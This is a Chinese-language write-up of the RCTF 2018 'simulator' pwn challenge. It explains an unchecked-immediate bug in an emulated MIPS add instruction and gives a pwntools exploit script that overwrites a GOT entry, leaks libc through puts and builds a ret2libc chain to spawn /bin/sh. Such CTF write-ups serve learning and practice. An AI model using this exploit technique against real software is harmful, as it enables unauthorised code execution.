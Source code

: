 # RCTF simulator
## Author： fanda

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>学习了NextLine队伍的wp（[原链接](https://lyoungjoo.github.io/2018/05/21/RCTF-2018-Write-Up/)），自己理解复现了一遍，现在我讲解一下：</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>checksec一下关了GOT覆写保护，也关了基址随机化保护，那么就算题目没有给libc也可以用自己的，‘ldd simulator’一下然后用pwntools的ELF读取就行了。这题主要复杂在前面冗长的逆向分析，实际上模拟了MIPS指令，利用技巧上不难，程序对立即数没有检查，可以利用程序逻辑漏洞泄露更改任意地址。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>举个add指令的例子：</font></br>

```C
int __cdecl add(int arg1, signed int arg2, signed int arg3)
{
  int reg; // eax@2
  int v4; // eax@5
  int reg_ptr; // [sp+8h] [bp-8h]@4

  if ( arg2 > 31 )
    reg = arg2 - 32;
  else
    reg = reg_arr[2 * arg2];
  reg_ptr = reg;
  if ( arg3 > 31 )
    v4 = arg3 - 32;
  else
    v4 = reg_arr[2 * arg3];
  reg_arr[2 * arg1] = v4 + reg_ptr;
  return i++ + 1;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这就相当于 add arg1,arg2,arg3。没有寻址检测，这就意味着如果我们不用寄存器的话，可以任意地址写，因为数组访问的本质上就是一些运算寻址罢了。因为可以改写GOT表，而且开了堆栈保护，那么我们可以覆写__stack_chk_fail函数的GOT表，覆盖为我们的payload来getshell。剩下的就是一些常用技巧了，计算基址算出libc的system和'/bin/sh'的地址。</font></br>

Exploit脚本:
=======

```python
asm = []
#利用add修改GOT表
asm.append('add %d, %d' % (c_uint32((1<<32) - 321-0x20).value,0x0804852e))
asm.append('END')

f = ''
for i in asm:
        f += i + "\n"
s.send(f)

#gadget
pr = 0x0804a8cb
pppr = 0x0804b339
lr = 0x080486e8

#泄露puts函数GOT表地址来计算基址
payload = 'A' * 0x30
payload += p32(e.plt['puts']) + p32(pr) + p32(e.got['puts'])
payload += p32(0x804ac58)
s.sendline(payload)

s.recvuntil('leave a comment: ')
libc = u32(s.recv(4)) - l.symbols['puts']
log.info("LIBC :" + hex(libc))

s.sendline('END')
binsh = next(l.search('/bin/sh'))
payload = 'A' * 0x30
payload += p32(libc + l.symbols['system']) + p32(pr) + p32(libc+binsh)
s.sendline(payload)
```
